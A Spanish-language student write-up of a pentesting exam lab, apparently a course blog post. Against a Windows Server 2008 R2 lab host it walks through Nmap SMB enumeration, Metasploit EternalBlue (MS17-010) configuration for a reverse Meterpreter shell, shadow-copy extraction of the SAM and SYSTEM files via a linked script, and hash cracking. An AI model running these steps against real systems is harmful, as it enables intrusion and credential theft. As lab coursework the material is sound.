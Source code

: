 ```yaml
---
title: Examen Parcial
date: 2024-11-03 00:00:00 -05:00
categories: [SMB, Metasploitable, Pentesting]
tags: [RHOSTS, SAM, SYSTEM]  # TAG names should always be lowercase
---
```

## 2. Pregunta 2 (12 puntos).
Eres un auditor de seguridad que tiene la tarea de realizar un pentesting sobre un servidor de una empresa que ejecuta Windows Server 2008 R2. Este servidor tiene habilitado el servicio SMBv1, y tu objetivo es identificar vulnerabilidades, explotar el servicio SMB para obtener acceso y luego exfiltrar los archivos SAM y SYSTEM. Siguiendo los pasos a continuación, documenta tu procedimiento y las herramientas empleadas.

# Instrucciones:
**2.1. Escaneo de Red y Enumeración de Servicios (2 puntos)**
Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.

Inicialmente es necesario identificar las IP del host destino. Para eso ingresamos al command promt del host destino e identificamos su IP: ipconfig

![ipconfig](/assets/images/ip_w2008.JPG)

Tip: Investiga cuáles son los 02 puertos asociados con el servicio SMB. Luego, investiga como puedes usar nmap con el flag --script para una enumeración detallada. Al analizar el output del comando, buscar específicamente el término SMBv1 o el protocolo NT LM 0.12 en la lista de protocolos. Ello indicará la presencia del servicio SMBv1.

Los puertos relacionados con el Protocolo de Bloque de Mensajes del Servidor (SMB).
Los principales puertos utilizados por los servicios SMB son:
Puerto 139 (NetBIOS-ssn): Utilizado para el tráfico SMB/CIFS.
Puerto 445 (microsoft-ds): Utilizado para el tráfico SMB/CIFS sobre TCP/IP.
Estos puertos son cruciales para la detección y explotación de vulnerabilidades relacionadas con SMB, como la vulnerabilidad EternalBlue (MS17-010) que afectó a sistemas Windows.

Explicación:

-p139,445: Indica a nmap que escanee los puertos 139 y 445, que son los puertos asociados con SMB.

--script=smb-protocols,smb-vuln-*: Utiliza los scripts de nmap específicos para enumerar los protocolos SMB y buscar vulnerabilidades relacionadas con SMB.

````bash
nmap -p 139,445 --script=smb-protocols,smb-vuln-* 10.0.2.4
````

![nmap_script](/assets/images/nmap_script.JPG)

Al identificar los puertos SMB abiertos en un sistema, se puede determinar si es vulnerable a ataques y exploits específicos de SMB. Esto es un paso fundamental en el proceso de evaluación y explotación de vulnerabilidades.

![netstat -an](/assets/images/139_445.JPG)

````bash
netstat -an | Select-String "139|445"
````
Escribe el comando que usaste en Nmap y explica brevemente cómo determina si SMBv1 está activo.

El comando ingresado en Nmap que puede usarse es:

````bash
sudo nmap -sS 10.0.2.4
````
o tambien 
````bash
sudo nmap -sS -p 139 10.0.2.4
sudo nmap -sS -p 445 10.0.2.4
````

![sudo nmap -sS -p 139 10.0.2.4"](/assets/images/sudo_nmap_ss.JPG)

![sudo nmap -sS -p 445 10.0.2.4"](/assets/images/sudo_nmap_ss_p.JPG)

**2.2. Exploración de la Vulnerabilidad (2 puntos)**

Utiliza los resultados del escaneo para identificar si el servicio SMBv1 presenta alguna vulnerabilidad conocida. Indica si el servidor es vulnerable al exploit EternalBlue (MS17-010).

Según los resultados del escaneo mostrados en la imagen, el servidor es vulnerable al exploit EternalBlue (MS17-010).

Esto se deduce de la siguiente información encontrada en el reporte:

 - El servicio SMBv1 está presente en el sistema, lo cual se indica por la línea "dialects: NT LM 0.12 (SMBv1) [dangerous, but default]".

 - El reporte muestra una vulnerabilidad relacionada con SMBv1, denominada "Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)".

 - Se indica que el estado de la vulnerabilidad es "VULNERABLE" y que el "Risk factor" es "HIGH".

 - Se proporciona información de referencia sobre la vulnerabilidad EternalBlue (CVE-2017-0143), que es la misma que afecta a SMBv1.


Tip: Para explotar esta vulnerabilidad, usa el framework Metasploit y selecciona el módulo específico exploit/windows/smb/ms17_010_eternalblue, con el objetivo de establecer una conexión reverse shell hacia la máquina atacante.

````bash
use exploit/windows/smb/ms17_010_eternalblue
````

![netstat -an](/assets/images/msf6_windows.JPG)

Explica brevemente el funcionamiento del script exploit/windows/smb/ms17_010_eternalblue y por qué se selecciona este módulo en particular para obtener acceso remoto.

Es un módulo de Metasploit diseñado para explotar la vulnerabilidad MS17-010, también conocida como EternalBlue. Esta vulnerabilidad afecta a sistemas Windows que no han sido actualizados con el parche de seguridad correspondiente.

Funcionamiento del Script:

  1. Escaneo de Red: El script comienza escaneando la red en busca de sistemas vulnerables. Utiliza el protocolo SMB (Server Message Block) para identificar sistemas Windows que tienen el puerto 445 abierto.

  2. Exploitación de la Vulnerabilidad: Una vez identificados los sistemas vulnerables, el script intenta explotar la vulnerabilidad MS17-010. Esta vulnerabilidad se debe a un error en la implementación del protocolo SMB, que permite a un atacante enviar datos malformados que pueden ser interpretados de manera incorrecta por el sistema objetivo.

  3. Obtención de Acceso Remoto: Si la explotación tiene éxito, el script puede obtener acceso remoto al sistema vulnerable. Esto generalmente implica la ejecución de código arbitrario en el sistema objetivo, lo que puede permitir al atacante instalar una shell (interfaz de comando) para interactuar con el sistema de manera remota.

**2.3. Configuración del Exploit en el Framework Metasploit (2 puntos)**

Configura el exploit mencionado anteriormente, especificando los parámetros necesarios, como las direcciones IP del atacante y la víctima.

````bash
set RHOSTS 10.0.2.4
set verbose true
run
````

![set](/assets/images/set_rhosts.JPG)


Tip: Configura los parámetros RHOSTS para la IP de la máquina objetivo y LHOST para tu máquina atacante. Estos son esenciales para establecer la conexión.

![lhost](/assets/images/lhost.JPG)

Tip adicional: También debes configurar el payload para el reverse shell. Busca en el metasploit un payload (que ya anteriormente hemos usado en clase) para obtener un reverse shell connection.

Explica brevemente cada parámetro crítico que configuraste, como LHOST y RHOSTS, y justifica por qué esos valores son importantes para el ataque.

**2.4. Ejecución del Exploit (2 puntos)**

Ejecuta el exploit para obtener una conexión Meterpreter con el servidor. Si la explotación es exitosa, documenta qué mensaje o salida te confirma que la conexión ha sido establecida.

````bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.0.2.9
LHOST => 10.0.2.9
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.0.2.4
RHOSTS => 10.0.2.4
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
````

![lhost](/assets/images/reverse.JPG)


Tip: Al ejecutar el exploit, Metasploit intentará establecer una sesión Meterpreter en la máquina víctima si el ataque es exitoso.

![meterpreter](/assets/images/meterpreter.JPG)

Tip adicional: Documenta cualquier mensaje en la salida de Metasploit que indique éxito, como Meterpreter session X opened. Esto confirma la conexión.



**2.5. Exfiltración de Archivos SAM y SYSTEM (2 puntos)**
Utilizando la sesión de Meterpreter establecida, explica los pasos para infiltrar un script o herramienta que te permita crear una copia de volumen de sombra (Volume Shadow Copy) de la unidad principal (C:) del servidor.

Link de descarga del archivo vssown.vbs: Descargar archivo

https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs

Describe brevemente cómo utilizarías esta copia de sombra para acceder a los archivos SAM y SYSTEM. Enumera los comandos necesarios en Meterpreter o la shell de Windows para:

Crear la copia de sombra.
Copiar los archivos SAM y SYSTEM a un directorio accesible.
Descargar los archivos a tu máquina atacante.
Tip: Utiliza el enlace de descarga proporcionado para obtener el script vssown.vbs e infíltralo en la máquina víctima usando Meterpreter.

Tip adicional: Después de ejecutar el script vssown.vbs, toma nota de la ubicación de la copia de volumen de sombra que se crea (ruta similar a \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX).

**2.6. Análisis de los Archivos Exfiltrados (2 puntos)**
Una vez que hayas descargado los archivos SAM y SYSTEM, describe el procedimiento que seguirías en tu máquina atacante para extraer los hashes de contraseñas. Especifica qué herramientas emplearías para realizar esta tarea.

Tip: Una vez descargados los archivos SAM y SYSTEM a tu máquina Kali Linux, usa herramientas como samdump2 para extraer los hashes.

Tip adicional: Con los hashes extraídos, puedes intentar descifrarlos con herramientas como John the Ripper o Hashcat.

**2.7. Requisitos de Documentación**
Documentar en su respectivo blog.

Para cada paso, proporciona capturas de pantalla y explica en tus propias palabras qué estás haciendo y por qué es relevante en un proceso de auditoría de seguridad.

Asegúrate de usar herramientas comunes en entornos de pentesting (por ejemplo, Nmap, Metasploit, samdump2, John the Ripper).

Tip: Asegúrate de capturar cada paso clave con capturas de pantalla y explica en tu blog lo que hace cada comando o herramienta.